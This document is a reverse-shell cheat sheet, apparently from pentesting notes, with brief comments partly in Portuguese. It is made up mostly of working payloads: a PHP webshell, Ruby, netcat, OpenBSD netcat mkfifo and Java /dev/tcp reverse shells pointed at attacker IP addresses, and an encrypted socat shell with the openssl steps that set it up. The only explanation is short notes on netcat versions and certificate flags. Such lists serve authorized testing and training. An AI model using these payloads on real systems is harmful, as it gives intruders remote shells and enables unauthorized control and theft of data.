 Webshell

    <?php system($_REQUEST['cmd']); ?>

# Ruby
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

    nc -e /bin/sh 10.0.0.1 1234
    nc -e /bin/bash 10.0.0.1 4242
    nc -c bash 10.0.0.1 4242
    /bin/sh | nc 10.0.0.1 80
    rm -f /tmp/p; mknod /tmp/p p && nc 10.0.0.1 4444 0/tmp/p
    
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
    
 OpenBSD Netcat

    mkfifo /tmp/lol;nc 10.10.14.17 8081 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 8081 >/tmp/f

# socat

Gerando certificado para fechar conexões criptografadas

req: initiate a new certificate signing request
-newkey: generate a new private key
rsa:2048: use RSA encryption with a 2,048-bit key length.
-nodes: store the private key without passphrase protection
-keyout: save the key to a file
-x509: output a self-signed certificate instead of a certificate request
-days: set validity period in days
-out: save the certificate to a file

1) listener

    openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 362 -out cert.crt
    cat cert.key cert.crt > cert.pem
    
    socat OPENSSL-LISTEN:443,cert=cert.pem,verify=0,fork EXEC:/bin/bash
 
 2) client
 
    socat - OPENSSL:192.168.1.26:443,verify=0

# Java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
